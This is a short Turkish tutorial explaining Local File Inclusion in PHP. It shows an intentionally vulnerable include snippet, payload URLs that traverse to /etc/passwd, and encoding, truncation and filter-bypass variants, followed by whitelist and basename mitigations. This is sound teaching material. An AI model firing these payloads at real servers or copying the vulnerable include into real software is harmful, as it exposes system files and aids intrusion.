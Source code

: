 # Local File Inclusion (LFI) Nedir
Local File Inclusion, web uygulamalarında kullanıcıdan alınan verilerin dosya yolu olarak işlenmesi sırasında ortaya çıkan bir zafiyetdir. Saldırgan, LFI sayesinde sunucudaki yerel dosyalara erişebilir ve hassas bilgileri elde edebilir.

Örnek olarak bir PHP uygulamasında şöyle bir kod olduğunu düşünelim:
```php
<?php
// index.php
$page = $_GET['page'];
include($page);
?>
```

Bu kod, URL’den gelen page parametresini doğrudan include ediyor. Örneğin:
```
http://example.com/index.php?page=about
```

about.php dosyasını sunucuya dahil eder. Ancak saldırgan parametreyi değiştirerek kritik sistem dosyalarına erişebilir:
```
http://example.com/index.php?page=../../../../etc/passwd
```

Bu durumda sunucu /etc/passwd dosyasının içeriğini döndürebilir.

# Bypass Teknikleri
## Double Encoding
```
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

## UTF-8 Encoding
```
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

## Path Truncation
```
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```

## Filter Bypass
```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

# LFI Açığını Önlemek
### Input Validation & Whitelisting
Kullanıcıdan gelen dosya adlarını direkt include etme. Sadece izin verilen dosyalar:
```php
$allowed_pages = ['about', 'contact', 'home'];
if(in_array($_GET['page'], $allowed_pages)) {
    include($_GET['page']);
} else {
    echo "Sayfa bulunamadı";
}
```

## Dizin Sabitleme (Directory Traversal Protection)
Kullanıcı inputunu direkt dosya yolu olarak kullanmak yerine, sabit dizinle birleştir:
```php
include(__DIR__ . '/pages/' . basename($_GET['page']));
```